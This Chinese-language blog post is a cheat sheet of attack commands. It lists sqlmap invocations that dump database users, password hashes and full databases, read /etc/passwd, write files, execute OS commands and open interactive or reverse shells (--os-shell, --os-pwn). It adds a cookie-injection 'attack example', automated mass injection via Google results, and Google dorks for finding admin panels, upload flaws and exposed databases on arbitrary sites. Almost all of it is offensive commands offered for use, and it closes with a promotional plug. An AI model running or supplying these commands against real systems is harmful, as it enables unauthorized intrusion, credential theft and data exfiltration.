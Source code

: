 ```yaml
---
layout: post
category: curleyg-code-hack
title: SQLMap的用法+谷歌黑客语法
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: SQLMap的用法+谷歌黑客语法
lock: need
---
```


# SQLMap的用法+谷歌黑客语法

## SQLMap的用法记录

**基本步骤**

```
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-user #获取当前用户名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --current-db #获取当前数据库名称
sqlmap.py -u "http://192.168.109.139/news?id=1" --tables -D "db_name" #列表名
sqlmap.py -u "http://192.168.109.139/news?id=1" --columns -T "tablename" users-D "db_name" -v 0 #列字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0 #获取字段内容
******************信息获取****************** 
sqlmap.py -u "http://192.168.109.139/news?id=1" --smart --level 3 --users # smart 智能 level 执行测试等级
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbms "Mysql" --users # dbms 指定数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --users #列数据库用户
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs#列数据库
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords #数据库用户密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --passwords-U root -v 0 #列出指定用户数据库密码
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20 #列出指定字段，列出 20 条
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all -v 0 #列出所有数据库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges #查看权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --privileges -U root #查看指定用户权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --is-dba -v 1 #是否是数据库管理员
sqlmap.py -u "http://192.168.109.139/news?id=1" --roles #枚举数据库用户角色
sqlmap.py -u "http://192.168.109.139/news?id=1" --udf-inject #导入用户自定义函数（获取系统权限！）
sqlmap.py -u "http://192.168.109.139/news?id=1" --dump-all --exclude-sysdbs -v 0 #列出当前库所有表
sqlmap.py -u "http://192.168.109.139/news?id=1" --union-cols #union 查询表记录
sqlmap.py -u "http://192.168.109.139/news?id=1" --cookie "COOKIE_VALUE" #cookie 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -b #获取 banner 信息
sqlmap.py -u "http://192.168.109.139/news?id=1" --data "id=3" #post 注入
sqlmap.py -u "http://192.168.109.139/news?id=1" -v 1 -f #指纹判别数据库类型
sqlmap.py -u "http://192.168.109.139/news?id=1" --proxy"http://127.0.0.1:8118" #代理注入
sqlmap.py -u "http://192.168.109.139/news?id=1"--string"STRING_ON_TRUE_PAGE" #指定关键词
sqlmap.py -u "http://192.168.109.139/news?id=1" --sql-shell #执行指定 sql 命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --file /etc/passwd  #必须为dbs权限
sqlmap.py -u "http://192.168.109.139/news?id=1" --file-write 本地文件路径 file-dest 目标路径  #必须为dbs权限(可将本地的某个文件写入到目标路径下)
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-cmd=whoami #执行系统命令
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-shell #系统交互 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --os-pwn #反弹 shell
sqlmap.py -u "http://192.168.109.139/news?id=1" --reg-read #读取 win 系统注册表
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs-o "sqlmap.log" #保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --dbs -o "sqlmap.log" --resume #恢复已保存进度
sqlmap.py -u "http://192.168.109.139/news?id=1" --msf-path=/opt/metasploit3/msf2 --os-pwn 反弹 shell 需 metasploit 路径
sqlmap.py -u "http://192.168.109.139/news?id=1" --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap.py -u "http://192.168.109.139/news?id=1" --batch --tamper "base64encode.py" 加载脚本(可利用绕过注入限制)
sqlmap -g "google 语法" --dump-all --batch #google 搜索注入点自动 跑出所有字段
sqlmap.py -u "http://192.168.109.139/news?id=1" --forms  #post提交方式注入
sqlmap.py -r 本地数据包路径 #post提交方式注入
```

## 攻击实例

```
sqlmap.py -u "http://192.168.109.139/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users --password
```

谷歌黑客语法

- site：可以限制你搜索范围的域名.
- inurl：用于搜索网页上包含的URL，这个语法对寻找网页上的搜索，帮助之类的很有用.
- intext: 只搜索网页<body>部分中包含的文字(也就是忽略了标题、URL等的文字)
- intitle: 查包含关键词的页面，一般用于社工别人的webshell密码
- filetype：搜索文件的后缀或者扩展名
- intitle：限制搜索的网页标题.
- link: 可以得到一个所有包含了某个指定URL的页面列表.

- 查找后台地址：site:域名 inurl:login|admin|manage|member|admin_login|login_admin|system|login|user|main|cms
- 查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统|帐号|admin|login|sys|managetem|password|username
- 查找可注入点：site:域名 inurl:aspx|jsp|php|asp
- 查找上传漏洞：site:域名 inurl:file|load|editor|Files
- 找eweb编辑器：site:域名 inurl:ewebeditor|editor|uploadfile|eweb|edit
- 存在的数据库：site:域名 filetype:mdb|asp|#
- 查看脚本类型：site:域名 filetype:asp/aspx/php/jsp
- 迂回策略入侵：inurl:cms/data/templates/images/index/


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
